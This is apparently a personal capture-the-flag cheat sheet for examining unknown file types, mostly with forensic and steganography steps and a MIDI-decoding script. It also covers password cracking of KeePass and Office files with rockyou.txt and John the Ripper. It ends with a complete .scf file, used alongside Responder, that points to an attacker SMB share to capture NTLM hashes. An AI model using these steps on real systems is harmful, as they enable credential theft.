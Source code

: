 # Files_unknown
Guides for different file types

try this first:

strings <filename> | grep "password="

strings <filename> | grep PWD




1) .ab = android backup
   1.dd if=<filename>.ab bs=24 skip=1 | zlib-flate -uncompress > <filename>.tar
   
   2. tar -xvf <filename>.tar
  
   4. Then you will get an /app and an /shared folder.
      
   6. there you fill find what you searching for
      
   8. TIP: to find in all the folders if there is something--> ls -a *
---------------------------------------------------------------------------------------------------------------------------
2) .sal = Signal Acquisition Log file???
   
   1) unzip <filename>.sal   ---> (gives two files: x.bin  with binary ifno and y.json with metadata)
      
   3) strings x.bin 
      a) you might find the <SALEAE> tag at the begin. then yu go to there website and download there debug tool. With          that you analyze the binaries and take the message 
---------------------------------------------------------------------------------------------------------------------------
3) .bin =binary
   
   1) strings <filename>.bin
----------------------------------------------------------------------------------------------------------------------------

4) .eml
   
   1) strings
----------------------------------------------------------------------------------------------------------------------  
5) .mid
   
   1) First, we'll check the file with hidden messages in 'Program Change': https://github.com/maxcruz/stegano_midi
      if gives base64, then decrypt it
      
   3) try it in the audacity app
      
   if those are normal try this script  for DAW:
   
import mido

from collections import Counter


midi_filename = "final_version_v199237.mid"

mid = mido.MidiFile(midi_filename)

notes = []

for track in mid.tracks:

    for msg in track:
        if msg.type == 'note_on' and msg.velocity > 0:
            notes.append((msg.note, msg.velocity))

velocity_counts = Counter(velocity for _, velocity in notes)


if velocity_counts:

    most_common_velocity, count = velocity_counts.most_common(1)[0]
    print(f"Most common velocity: {most_common_velocity} ({count} times)")

filtered_velocity = [];

for note, velocity in notes:

    if velocity != most_common_velocity:
        filtered_velocity.append(velocity)
print("Filtered velocities:")

print(filtered_velocity)


and then :

flag = ''.join(chr(code) for code in filtered_velocity)

print("Flag:")

print(flag)
------------------------------------------------------------------------------------------------------------------------------
6) mp4 files/videos

Tools like https://y2down.cc/ can help downloading the MP4 file containing the video.
then use ffmpeg

$fmpeg -i teaser.mp4 -vf "fps=1" frames/out%04d.png

Well, the number of frames is huge. Over 1600 pictures. Too much to look at, but we can use another tool - OCR named tesseract

$ for file in frames/*.png; do tesseract "$file" stdout >> results.txt; done

It takes a moment, but after a while we got results.txt file we can check. It contains a bunch of crap, but using grep we can get our flag:

$ cat results.txt | grep 1753c{
------------------------------------------------------------------------------------------------------------------------------

7) .kdbx
   
   you need keepass to find the code.
   
   sudo apt install keepassxc
   
   git clone keepass4brute.sh
   
   and run it with rockyou.txt

---------------------------------------------------------------------------------------------------------------------------
8) .doc

You need oletools:

pip install -U oletools --break-system-packages

then: 

a. oleid filename.doc

b. 
---------------------------------------------------------------------------------------------------------------------------
9) .elf
    
   1.   vol -f name.elf windows.pslist            (gives running processes on the machine, search for weird names.exe and keep there PID)
  
   2.   vol -f name.elf windows.netscan            (gives connections at the time of dump taken, try to find the samw weird .exes running)
  
   3.   vol -f name.elf windows.cmdline            (get commands that were used to run those processes)

  or

   4.   vol -f name.elf windows.cmdline --pid 1234
    
----------------------------------------------------------------------------------------------------------------------------
10) .xlsx

    office2john file.xlsx >> hash.txt

    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

    then create env to use msoffcrypto:
    1. python3 -m venv venv
    2. source venv/bin/activate
    3. pip install msoffcrypto-tool
    4. python3 -m msoffcrypto -p password file.xlsx newname.xlsx
    5. open newname.xlsx
-------------------------------------------------------------------------------------------------------------------------------
11) .scf

Well when someone browses to a directory and a .scf is in it, it automatically reads it. It has been originally designed for Windows 95/98 for shortcut purposes.

sudo responder -w -I tun0

and create a file x.scf:

[Shell]

Command=2

IconFile=\\10.10.XX.XX\tools\nc.ico

[Taskbar]

Command=ToggleDesktop




